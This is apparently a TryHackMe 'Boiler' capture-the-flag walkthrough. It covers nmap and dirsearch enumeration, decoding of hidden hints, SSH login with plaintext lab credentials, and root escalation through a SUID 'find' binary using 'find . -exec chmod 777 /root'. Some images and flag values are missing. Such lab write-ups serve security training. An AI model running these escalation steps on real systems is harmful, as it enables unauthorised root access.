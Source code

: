 # Tryhackme (boiler CTF)

	enumuration process
## Nmap
```
sudo nmap -sC -sV 10.10.231.142
```
we got the ports like

```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-03-26 16:41 IST
Nmap scan report for 10.10.231.142
Host is up (0.55s latency).
Not shown: 997 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.2.124.113
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.36 seconds


```

in this scan there is a ftp server, from that server we got an file `.info.txt` in this file there is some bunch of text are there for that we need to check any vuln.

in this file we have some of the ROT13 codes 
```
	Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!

```
after decrypt: 	`Just wanted to see if you find it. Lol. Remember: Enumeration is the key!`	



also there http server mainly `robots.txt` in thsi directory
```
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```
in this some of the decimal encryption. we decrypt that codes we got

- OTliMDY2MGNkOTVhZGVhMzI3YzU0MTgyYmFhNTE1ODQK == base64
- 99b0660cd95adea327c54182baa51584  = md5
- kidding

also searched for directory list we got

`dirsearch -u http://10.10.253.152`
```
[17:22:52] 200 -   11KB - /index.html
[17:22:55] 301 -  315B  - /joomla  ->  http://10.10.231.142/joomla/
[17:22:55] 301 -  329B  - /joomla/administrator  ->  http://10.10.231.142/joomla/administrator/
[17:22:56] 200 -   12KB - /joomla/
[17:23:02] 301 -  315B  - /manual  ->  http://10.10.231.142/manual/
[17:23:02] 200 -  626B  - /manual/index.html
[17:23:24] 200 -  257B  - /robots.txt
[17:23:26] 403 -  302B  - /server-status/
[17:23:26] 403 -  301B  - /server-status


```

in site we got encrypted message 
- VjJodmNITnBaU0JrWVdsemVRbz0K
- V2hvcHNpZSBkYWlzeQo=
- Whopsie daisy


## ssh

user = basterd
passwd  superduperp@$$

```
ssh basterd@10.10.129.170 -p 55007
```
after we enter the new user id 
cat backup.sh
![image]()
we got user text

cat .secret
- ` `


then check the root privilage
`sudo -l`

SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. Normally in Linux/Unix when a program runs, it inherits access permissions from the logged in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it.

Use the following command to find files whose SUID bit is set.
```
    $ find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
```
[image]

Let’s breakdown the command we used for better understanding:

find →Search for files in a directory hierarchy.
/ →Search for files recursively from the root folder and so on.
-perm →To set specific permission setting. In this case which is /4000 the numerical representation of the SUID bit enabled
-type →It specify what type of files we wants to search. f for files, d for directories
-exec →let us execute a command with the findings from find in an array. In this case I used ls -ld to show the owner of the found files and the date of creation
2>/dev/null → which redirects all (errors) to /dev/null and keeping the output clean.

Have you observed the output we got from this command yet? In the list there is find commnad which have SUID bit set which means we can run find as root user. Using -exec flag as shown above. Let’s try out by changing the permission of root directory.
```
$ find . -exec chmod 777 /root \;
```

finally we got a root.txt

- 
